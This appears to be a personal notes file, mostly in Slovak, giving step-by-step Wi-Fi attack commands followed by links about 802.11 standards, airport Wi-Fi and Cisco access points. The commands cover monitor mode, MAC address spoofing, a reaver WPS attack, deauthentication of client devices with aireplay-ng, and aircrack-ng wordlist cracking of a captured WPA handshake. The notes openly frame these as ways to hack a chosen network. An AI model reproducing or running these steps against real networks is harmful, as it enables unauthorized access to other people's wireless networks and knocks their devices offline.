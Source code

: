 # wlan 802.11 tech
airmon-ng start wlan0
airodump-ng wlan0
vyberes bssid toho coho chces hacknut
airodump-ng -c tocojepodpismenomCH --bssid bssid mon0
to mas na to ked chces zhadzovat konkretne zariadenia
ked mas zkopirovane to bssid
reaver -i mon0 -b bssid -vv -c topodCH

Z wordlistu....heslo musi byt len slovo: 
http://www.youtube.com/watch?v=AlE6U3iQMTk
1) airmon-ng start wlan0
2) ifconfig mon0 down
3) macchanger -r mon0
4) ifconfig mon0 up
5) airodump-ng mon0
6) airodump-ng -c 5 -w WPACRACK --bssid FF:17:6A:EA:70:FF --ivs mon0
7) aireplay-ng -0 100 -e testwlan mon0
8) aircrack-ng -w /usr/share/wordlists/rockyou.txt WPACRACK-01.ivs

If aireplay-ng say that the channel is not correct
1) ifconfig mon0 down
2) iwconfig mon0 channel 6
3) ifconfig mon0 up


https://www.lifewire.com/wireless-standards-802-11a-802-11b-g-n-and-802-11ac-816553
http://blog.gauravkansal.in/2016/10/analysis-of-igi-airport-wi-fi-setup.html

http://www.stanstedairport.com/at-the-airport/services-and-facilities/internet-access/

https://www.cisco.com/c/en/us/products/wireless/access-points/index.html#~stickynav=2
https://www.cisco.com/c/en/us/products/wireless/access-points/compare-indoor-access-points.html

https://www.google.co.uk/search?client=firefox-b&dcr=0&ei=mFpbWrapN8zZgAbbr5eQDA&q=how+to+deploy+airport+wifi&oq=how+to+deploy+airport+wifi&gs_l=psy-ab.3..0i22i30k1l2.13139.17308.0.17465.26.16.0.2.2.0.369.2097.5j8j1j1.15.0....0...1c.1.64.psy-ab..10.16.1769...0j0i19k1j0i22i10i30i19k1j0i22i30i19k1.0.NvGNaaZ6Lns

https://www.google.co.uk/search?q=cisco+b%2Fg%2Fn+AP&ie=utf-8&oe=utf-8&client=firefox-b-ab&gfe_rd=cr&dcr=0&ei=zGVbWsnxDK-Gtgfi95PoCw

https://supportforums.cisco.com/t5/other-wireless-mobility-subjects/802-11b-g-n-operational-status-down-for-mesh-ap-1522e/td-p/2296774

